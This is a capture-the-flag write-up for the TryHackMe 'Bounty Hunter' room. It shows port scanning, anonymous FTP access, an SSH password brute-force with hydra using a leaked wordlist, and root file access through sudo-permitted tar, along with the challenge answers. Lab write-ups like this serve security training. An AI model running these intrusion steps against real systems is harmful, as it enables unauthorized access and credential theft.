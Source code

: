 #### Overview

Room  : [Bounty Hunter](https://tryhackme.com/room/cowboyhacker)
Author: Aliasgar Khimani

# Index

1. [Setup](#setup)
2. [Enumeration](#enumeration)
3. [Gaining Access](#gaining-access)
4. [Privilage Escalation](#privilage-escalation)
5. [Conclusion](#conclusion)

## Setup

To begin this challenge, we first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using `openvpn` to connect to the server. Here's the command:

```console
$ sudo openvpn --config NovusEdge.ovpn
```

## Enumeration

Now that we're connected to the TryHackMe server, we can proceed with enumerating the target machine. First, we need to check for open ports on the target:

> Be sure to deploy the machine before proceeding >.>

```console
$ sudo nmap -sS -p- -v MACHINE_IP
...
...
Discovered open port 80/tcp on MACHINE_IP
Discovered open port 22/tcp on MACHINE_IP
Discovered open port 21/tcp on MACHINE_IP
...
PORT      STATE  SERVICE         REASON
...
21/tcp    open   ftp             syn-ack ttl 63
22/tcp    open   ssh             syn-ack ttl 63
80/tcp    open   http            syn-ack ttl 63
...
...
```

We now know that the target machine has 3 open ports: `21`, `22` and `80` for services: `ftp`, `ssh` and `http` respectively.

We can now use this to work our way to gaining access into the target machine...

## Gaining Access 

Let's first proceed with trying to log into the ftp server on the target using the `ftp` command:

```console
$ ftp MACHINE_IP
Connected to MACHINE_IP.
220 (vsFTPd 3.0.3)
Name (MACHINE_IP:novusedge): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files. 
ftp> 
```

Using the username: `anonymous` granted us access to the ftp server. Now we can check for any files that we can grab:

```console
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

There are 2 files, `locks.txt` and `task.txt`. We can download them to our local machine like so:

```console
ftp> get locks.txt

ftp> get task.txt
```

Now, since we have the files, let's exit out, and check the contents of the files thus obtained...

task.txt: 
```txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

locks.txt:
```txt
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

From the contents of the first file, we get the answer to the third task on the challenge.

> Who wrote the task list?
> > Answer: lin

As the fourth task suggests, the file: `locks.txt` contains possible passwords for the ssh service on the target machine. Assuming that `lin` is the username we use for logging into the ssh server, we can brute-force this by using a tool like `hydra`:


```console
$ hydra -l lin -P locks.txt MACHINE_IP ssh
...
[22][ssh] host: MACHINE_IP   login: lin   password: RedDr4gonSynd1cat3
...
```

This gives us the answer to fifth task:
> What is the users password? 
> > RedDr4gonSynd1cat3

Let's try logging into the ssh server on the target with the credentials we've obtained:

```console
$ ssh lin@MACHINE_IP 
lin@MACHINE_IP's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Thu Jun 23 13:06:21 2022 from 10.11.69.69

lin@bountyhacker:~/Desktop$
```

We can get the user flag from lin's home directory:

```console
lin@bountyhacker:~/Desktop$ ls
user.txt

lin@bountyhacker:~/Desktop$ cat user.txt
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

This gives us the answer to the 6th task:
> user.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝


## Privilage Escalation

Now that we have a foothold, we can now proceed with getting root privilages :3
First, let's check if we have any commands we can execute with root privilages and no passwords:

```console
lin@bountyhacker:~/Desktop$ sudo -ll
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:

Sudoers entry:
    RunAsUsers: root
    Commands:
	/bin/tar
```

Interesting...We can use the `tar` command as root without passwords. Assuming that the `root.txt` is in the `/root/` directory, we can use the following to create a tar archive of all files in the `/root/` directory in `/home/lin/Desktop`:

```console
lin@bountyhacker:~/Desktop$ sudo tar -cf files.tar /root
tar: Removing leading `/' from member names

lin@bountyhacker:~/Desktop$ ls
files.tar  user.txt

# Uncompressing the tar archive to get the files:
lin@bountyhacker:~/Desktop$ tar -xf files.tar 
lin@bountyhacker:~/Desktop$ ls -l
-rw-r--r-- 1 root root 20480 Jun 23 13:21 files.tar
drwx------ 5 lin  lin   4096 Jun  7  2020 root
-rw-rw-r-- 1 lin  lin     21 Jun  7  2020 user.txt

lin@bountyhacker:~/Desktop$ ls -l root/
total 4
-rw-r--r-- 1 lin lin 19 Jun  7  2020 root.txt
```

We can now just `cat` the contents of our `root.txt` file thus obtained:

```console
lin@bountyhacker:~/Desktop$ cat root/root.txt 
R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝
```

Done! This gives the answer to the final task.

> root.txt
> > R̶̛̛̛̻͉̜͒͋̀̈́͛͘͠E̷̲̓̋D̸̤͔̒A̷̘̝̞͓̞̰̋́̾̑̈̐̓̊̕͝C̵͚͍̥̬͇̠͎͎̯̏͑̂̈́̀̽̅̔͜T̶̡͍̭̎̒́̆̈Ê̶̦̙̬͙̠̯̰̱̏̕͜D̶͕̮̀̂̾͗̀͛̅͘͘͝

## Conclusion

I hope this writeup was useful. Personally, I found this room to be quite a fun little experience. If you liked this, please consider dropping a star and/or following me on github: https://github.com/NovusEdge


